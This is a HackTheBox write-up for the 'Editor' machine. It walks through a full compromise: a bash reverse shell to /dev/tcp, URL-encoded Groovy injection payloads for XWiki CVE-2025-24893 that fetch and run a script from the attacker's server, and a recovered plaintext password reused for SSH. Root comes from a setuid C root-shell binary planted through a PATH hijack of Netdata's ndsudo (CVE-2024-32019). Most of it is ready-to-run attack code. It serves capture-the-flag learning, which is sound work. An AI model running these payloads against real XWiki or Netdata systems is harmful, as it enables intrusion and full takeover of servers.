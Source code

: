 ```yaml
---
title: "Editor HackTheBox Writeup"
date: 2025-08-31
tags: [ssh, HackTheBox, ndsudo]
categories: [HackTheBox]
---
```


# HackTheBox - Editor



![](/images/hackthebox/Editor/Pasted image 20250821174033.png)


# Reccon

As usual we will start with the *Nmap*
```
nmap -sC -sV --min-rate 5000 -T5 -Pn -p- 10.10.11.80
```

![](/images/hackthebox/Editor/Pasted image 20250821174634.png)

Looking at the result , we have 

-   22/tcp   open  ssh     OpenSSH
-  80/tcp   open  http    nginx
-  8080/tcp open  http    Jetty

Let add *editor.htb* in our hosts file
```
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```

# WebEnumeration

On port 80 we have

![](/images/hackthebox/Editor/Pasted image 20250821175749.png)

And on port *8080*

![](/images/hackthebox/Editor/Pasted image 20250821175938.png)

I saw the *Xwiki* version in the bottom , when i googled about it , i came acrros this CVE 2025-24893 

![](/images/hackthebox/Editor/Pasted image 20250821191425.png)

and for the exploit , i got this [Exploit](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py) 
To get the shell , we first need to create *shell.sh*

```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/9001 0>&1
```

After creating a *shell.sh* start a python server in you local machine

```
python3 -m http.server 8000
```

Then in the browser Paste this encoded URL

 ```
  http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://10.10.14.205:8000/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

 ```

Then have a listener of your choice , mine is *net-cat*

```
rlwrap nc -lvnp 9001
```

Then execute your payload
```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

And **Boom** u got your shell

![](/images/hackthebox/Editor/Pasted image 20250822194504.png)

In **/etc/passwd** u will find that there is a user called **oliver**

```
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

Then in the **WEB-INF** u will find **hibernate.cfg.xml**
In which u will find the password of **Oliver**

```
theEd1t0rTeam99
```

![](/images/hackthebox/Editor/Pasted image 20250822200138.png)
```
ssh oliver@editor.htb
```

Getting into the user , we got our **user.txt** 

# Getting the Root

On  Localhost at port 19999 there is a service running called **netdata**

![](/images/hackthebox/Editor/Pasted image 20250822201529.png)

So we did some Port forwarding

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

Paste this in your browser

```
http://localhost:19999/
```

![](/images/hackthebox/Editor/Pasted image 20250822203154.png)

Clicking on the **Please update them** , we get the version **1.45.2**

![](/images/hackthebox/Editor/Pasted image 20250822203407.png)

After digging the internet we get this [CVE-2024-32019](CVE-2024-32019)
**Oliver** has permission to run `ndsudo`:
1. Place an executable with a name that is on `ndsudo`’s list of commands (e.g. `nvme`) in a writable path
2. Set the `PATH` environment variable so that it contains this path
3. Run `ndsudo` with a command that will run the aforementioned executable
First we need to make an **exploit.c** binary , then compile it

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);       // Switch to root
    setgid(0);       // Switch group to root
    system("/bin/bash");  // Spawn a root shell
    return 0;
}
```

Then compile it

```
gcc -o nvme exploit.c
```

Then we need to upload the exploit.c in Oliver's **/tmp** directory , for that we will use python server

```
python3 -m http.server 8000
```

Then the following

```
curl http://<YOUR-IP>:8000/nvme -o nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

And **Boom** we got the root.txt

![](/images/hackthebox/Editor/Pasted image 20250822211101.png)



---

